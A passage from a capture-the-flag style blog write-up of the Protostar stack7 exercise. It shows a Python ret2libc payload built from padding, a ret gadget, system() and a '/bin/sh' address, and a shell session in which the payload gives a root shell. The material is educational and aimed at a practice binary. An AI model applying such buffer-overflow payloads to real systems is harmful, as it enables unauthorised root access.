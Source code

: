  So now our stack should look something like this:

<img src="/assets/img/post/2020-07-10-exploit-education-protostar-stack-series/stack7_1.png" style="width: 50%" >

The final exploit will look something like below:

```python
import struct
offset = "A"*80
ret = struct.pack("I", 0x8048383); # address of ret
system = struct.pack("I", 0xb7ecffb0); # system()
shell = struct.pack("I", 0xb7fb63bf); # "/bin/sh"
print offset + ret + system + 'AAAA' + shell 
```

But wait why are we using `AAAA` well remember "return address 3" in the photo above? It techincally doesn't matter what this is as long as its 4 bytes. The `AAAA` can be replaced with `exit` address since this value is used for the return address for `system()`.

```shell
$ (cat /tmp/txt; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA�����AAAA�c��
whoami
root
```

## So what now?
